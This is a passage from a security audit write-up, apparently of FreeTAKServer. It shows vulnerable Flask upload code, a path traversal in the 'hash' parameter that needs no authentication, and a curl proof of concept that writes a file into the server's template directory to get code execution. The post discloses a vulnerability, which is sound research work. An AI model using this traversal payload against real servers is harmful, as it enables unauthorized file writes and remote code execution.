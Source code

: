```python
  file = request.files.getlist('assetfile')[0]
  directory = Path(dp_directory, file_hash)
  if not Path.exists(directory):
    os.mkdir(str(directory))
  file.save(os.path.join(str(directory), filename))
  fileSize = Path(str(directory), filename).stat().st_size
  callsign = str(
    FlaskFunctions().getSubmissionUser(creatorUid,
                                        dbController))  # fetchone() gives a tuple, so only grab the first element
  FlaskFunctions().create_dp(dbController, uid=uid, Name=filename, Hash=file_hash, SubmissionUser=callsign,
                            CreatorUid=creatorUid, Size=fileSize)
  if USINGSSL == False:
    return "http://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
  else:
    return "https://" + IP + ':' + str(HTTPPORT) + "/Marti/api/sync/metadata/" + file_hash + "/tool"
```
Whats visible in the vulnerable code block is that the parameter `hash` is passed to `os.path.join((str(directory), filename))` which when supplied alot of `../` (8 to be exact) it puts the base directory at the root of the filesystem and then the file is put wherever its directed (given write permissions)  
{{< hl-text danger >}}
Note that this does not require any _authentication_ only that you are connected to the FreeTAKServer with a valid connection.
{{< /hl-text >}}

###### Proof of Concept

```bash
curl -vvv -F "assetfile=@rce.html" "http://atak.FreeTAKServer.com:8080/Marti/sync/missionupload?hash=/../../../../../../../usr/local/lib/python3.8/dist-packages/FreeTAKServer-UI/app/home/templates/&filename=janne2.html&creatorUid="
```
Sending the file contents to the missionupload endpoint results in a valid response and browsing to the file on the WebUI results in Code Execution:  
![Marti curl request and file contents](assets/images/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_marti_curl.jpg)

The file will be uploaded to `/usr/local/lib/python3.8/dist-packages/FreeTAKServer-UI/app/home/templates` which is where the Flask server is hosting its files from.

![Code Execution through Templating](assets/images/posts/2022/02/securityaudit-of-an-open-source-project-takserver/arbitrary-file-write_marti_result.jpg)
